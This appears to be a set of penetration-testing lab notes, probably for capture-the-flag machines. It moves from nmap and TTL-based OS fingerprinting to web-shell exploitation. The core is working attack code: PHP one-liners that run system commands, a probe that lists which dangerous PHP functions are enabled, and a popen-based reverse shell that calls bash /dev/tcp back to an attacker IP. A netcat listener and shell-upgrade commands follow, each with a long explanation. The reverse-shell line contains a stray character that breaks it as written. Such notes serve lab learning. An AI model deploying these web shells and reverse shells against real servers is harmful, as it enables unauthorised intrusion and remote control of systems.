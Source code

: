 ### Procedures

#### Recon

##### NMAP

``` nmap -sC -sV -A -Pn -oA nmap/<fileOutput> <ipOrDomain> ```


##### VHOSTS - Domains
Add any domains found to /etc/hosts

##### Confirm target OS
Confirm target OS with ping /dcpdump and TTL and correlate with nmap discovery banner

* Linux/MAC OS – 64
* Windows – 128
* Cisco Routers – 255
* DNS – depends on the DNS resolver (can range from 128 to 86400)

```
ping 10.129.181.116
PING 10.129.181.116 (10.129.181.116) 56(84) bytes of data.
64 bytes from 10.129.181.116: icmp_seq=1 ttl=63 time=7.63 ms
64 bytes from 10.129.181.116: icmp_seq=2 ttl=63 time=7.78 ms
64 bytes from 10.129.181.116: icmp_seq=3 ttl=63 time=7.76 ms
```

So this confirms the TTL 63 so Linux box

You can also use tcpdump as follows:

``` 
tcpdump -i tun0 -v -n ip src 10.129.181.116
```
then on another shell drop netat to 22 for example

```
nc -zv 10.129.181.116 22
```

And you should be able to only see the packets as follows below ```ttl 63```

```
root@cloud1:/opt/repos# tcpdump -i tun0 -v -n ip src 10.129.181.116
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
11:05:26.008219 IP (tos 0x0, ttl 63, id 0, offset 0, flags [DF], proto TCP (6), length 60)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [S.], cksum 0x9708 (correct), seq 1050554249, ack 1765552463, win 65160, options [mss 1357,sackOK,TS val 2162116772 ecr 2221788402,nop,wscale 7], length 0
11:05:26.019534 IP (tos 0x0, ttl 63, id 32497, offset 0, flags [DF], proto TCP (6), length 52)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [.], cksum 0xc1e3 (correct), ack 2, win 510, options [nop,nop,TS val 2162116784 ecr 2221788410], length 0
11:05:26.073981 IP (tos 0x0, ttl 63, id 32498, offset 0, flags [DF], proto TCP (6), length 93)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [P.], cksum 0x9d54 (correct), seq 1:42, ack 2, win 510, options [nop,nop,TS val 2162116838 ecr 2221788410], length 41
11:05:26.074296 IP (tos 0x0, ttl 63, id 32499, offset 0, flags [DF], proto TCP (6), length 52)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [F.], cksum 0xc182 (correct), seq 42, ack 2, win 510, options [nop,nop,TS val 2162116839 ecr 2221788410], length 0
```

##### Interesting Tools
OSINT (Open Source Intelligence Tools)

- GitTools - https://github.com/internetwache/GitTools
-------------------------

##### Manual Inclusion of Php Shell
```
<?php system("whoami"); ?>
```

phpinfo allows us check if system / popen and other mods are disabled
```
<?php phpinfo(); ?>
```

if so dfunction bypass so we create a nice php file which we include in a request to map what we can do as followws

##### Creation of dangerous.php

```
<?php 
$dangerous_functions = array('popen','system');

foreach($dangerous_functions as $f) {
    if (function_exists($f)) {
        echo $f . " exists<br>\n";
    }
}
```

So output came with popen as a nice possibility

so ... as a reference here is php popen manual :D --> https://www.php.net/manual/en/function.popen.php
so we did some mods :D as follows below

```
<?php
error_reporting(E_ALL);

/* Add redirection so we can get stderr. */
$handle = popen('bash -c "bash -i > & /dev/tcp/<OUR_IP>/<OUR_PORT> 0>&1"'>, 'r');

/* example $handle = popen('bash -c "bash -i > & /dev/tcp/127.0.0.1/9001 0>&1"'>, 'r'); */

echo "'handle'; " . gettype($handle) . "\n";
$read = fread($handle, 2096);
echo $read;
pclose($handle);

?>
```

This PHP script is attempting to establish a reverse shell connection to a specified IP address and port using the popen() function, which opens a pipe to a process started by the given command. Here's a breakdown of the script:

Here's what the script does:

It sets the error reporting level to report all PHP errors.
It uses popen() to execute a Bash command. This command attempts to establish a reverse shell connection to <OUR_IP> on <OUR_PORT>. <OUR_IP> and <OUR_PORT> should be replaced with the attacker's IP address and listening port, respectively.
It outputs the type of the $handle variable, which is a resource returned by popen().
It reads up to 2096 bytes of output from the command execution using fread() and echoes it.
Finally, it closes the pipe to the process using pclose().
It's important to note that executing shell commands from within PHP can be dangerous, especially if user input is involved, as it can lead to security vulnerabilities such as command injection. Additionally, the use of reverse shells for unauthorized access to systems is unethical and likely illegal.

we start our server that will reverse the shell using netcat as follows:

``` nc -lvnp 9001 ```

This command listens (`-l`) on port 9001 (`-p 9001`) for incoming connections (`-n` option disables DNS resolution) using the netcat (`nc`) utility in listening mode (`-l`). 

- `-v`: Enables verbose mode, which provides more detailed output.
- `-n`: Suppresses DNS resolution for IP addresses, which can speed up connection establishment.
- `-p 9001`: Specifies the port number (9001 in this case) on which to listen for incoming connections.

So, when you run this command, your system will start listening for incoming TCP connections on port 9001. This is often used in scenarios where you want to set up a simple network server for testing or other purposes.

when we have the server listening on this shell we send the request with our crafted shell and load it

we should have droped to the shell on target server on the nc shell

when the target server shell is spawned, we might want to :

``` python3 -c 'import pty;pty.spawn("/bin/bash")' ```

then

``` stty raw -echo;fg ```

This Python command invokes an interactive Bash shell from within a Python session. Let me break it down for you:

- `python3`: This is the command to invoke the Python interpreter. It indicates that the following code should be executed using Python 3.

- `-c`: This flag tells Python to execute the following string as a command.

- `'import pty;pty.spawn("/bin/bash")'`: This is the Python code to be executed. It first imports the `pty` module, which stands for "pseudo terminal utilities". Then it uses the `spawn` function from the `pty` module to spawn a new process running `/bin/bash`, which is the Bash shell.

So, when you run this command, it effectively starts a new interactive Bash shell within your current terminal session, allowing you to execute commands as if you were using a regular Bash shell.

This command performs two operations:

1. `stty raw -echo`: This command configures the terminal to operate in "raw" mode and disables echoing. In raw mode, input is passed directly to the application without any interpretation or line buffering by the terminal driver. Disabling echoing means that characters typed by the user will not be displayed on the screen.

2. `fg`: This command brings the most recently suspended job into the foreground. If no job is specified, it brings the current job into the foreground. This is typically used to resume a suspended process.

So, when you execute this command, it configures the terminal to operate in raw mode without echoing, and then brings the most recently suspended job (if any) into the foreground. This is often used in combination with the Python command (`import pty;pty.spawn("/bin/bash")`) to enhance the interactivity and usability of the spawned Bash shell.